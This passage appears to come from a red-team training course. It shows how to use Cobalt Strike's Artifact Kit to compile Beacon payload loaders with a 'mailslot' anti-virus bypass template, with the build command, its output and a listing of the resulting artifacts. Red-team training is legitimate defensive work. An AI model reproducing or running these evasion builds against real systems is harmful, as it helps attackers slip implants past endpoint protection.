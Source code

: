 For the purposes of this course, we're going to ignore options like stack spoofing and syscalls because they're not necessary for basic anti-virus evasion. In fact, adding syscalls at this stage will actually add more detections.

Let's build a set of artifacts using the mailslot bypass template.

```bash
attacker@DESKTOP-FGSTPS7:/mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact$ ./build.sh mailslot VirtualAlloc 344564 0 false false none /mnt/c/Tools/cobaltstrike/custom-artifacts
[Artifact kit] [+] You have a x86_64 mingw--I will recompile the artifacts
[Artifact kit] [*] Using allocator: VirtualAlloc
[Artifact kit] [*] Using STAGE size: 344564
[Artifact kit] [*] Using RDLL size: 0K
[Artifact kit] [*] Using system call method: none
[Artifact kit] [+] Artifact Kit: Building artifacts for technique: mailslot
[Artifact kit] [*] Recompile artifact32.dll with src-common/bypass-mailslot.c
[Artifact kit] [*] Recompile artifact32.exe with src-common/bypass-mailslot.c
[Artifact kit] [*] Recompile artifact32svc.exe with src-common/bypass-mailslot.c
[Artifact kit] [*] Recompile artifact32big.dll with src-common/bypass-mailslot.c
[Artifact kit] [*] Recompile artifact32big.exe with src-common/bypass-mailslot.c
[Artifact kit] [*] Recompile artifact32svcbig.exe with src-common/bypass-mailslot.c
[Artifact kit] [*] Recompile artifact64.x64.dll with src-common/bypass-mailslot.c
[Artifact kit] [*] Recompile artifact64.exe with src-common/bypass-mailslot.c
[Artifact kit] [*] Recompile artifact64svc.exe with src-common/bypass-mailslot.c
[Artifact kit] [*] Recompile artifact64big.x64.dll with src-common/bypass-mailslot.c
[Artifact kit] [*] Recompile artifact64big.exe with src-common/bypass-mailslot.c
[Artifact kit] [*] Recompile artifact64svcbig.exe with src-common/bypass-mailslot.c
[Artifact kit] [+] The artifacts for the bypass technique 'mailslot' are saved in '/mnt/c/Tools/cobaltstrike/custom-artifacts/mailslot'
```

The stage size tends to vary between CS releases as features get added or removed from Beacon. Always run build.sh without arguments first to see what the minimum stage sizes are.

This will output a new set of artifacts and an Aggressor script called `artifact.cna`.

```batch
PS C:\Tools\cobaltstrike\custom-artifacts\mailslot> ls

    Directory: C:\Tools\cobaltstrike\custom-artifacts\mailslot

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        19/03/2025     11:04          12045 artifact.cna
-a----        19/03/2025     11:03          38400 artifact32.dll
-a----        19/03/2025     11:03          40448 artifact32.exe
-a----        19/03/2025     11:03         409600 artifact32big.dll
-a----        19/03/2025     11:03         411648 artifact32big.exe
-a----        19/03/2025     11:03          42496 artifact32svc.exe
-a----        19/03/2025     11:03         413696 artifact32svcbig.exe
-a----        19/03/2025     11:03          41472 artifact64.exe
-a----        19/03/2025     11:03          39936 artifact64.x64.dll
-a----        19/03/2025     11:04         413184 artifact64big.exe
-a----        19/03/2025     11:03         411648 artifact64big.x64.dll
-a----        19/03/2025     11:03          43520 artifact64svc.exe
-a----        19/03/2025     11:04         415232 artifact64svcbig.exe
```
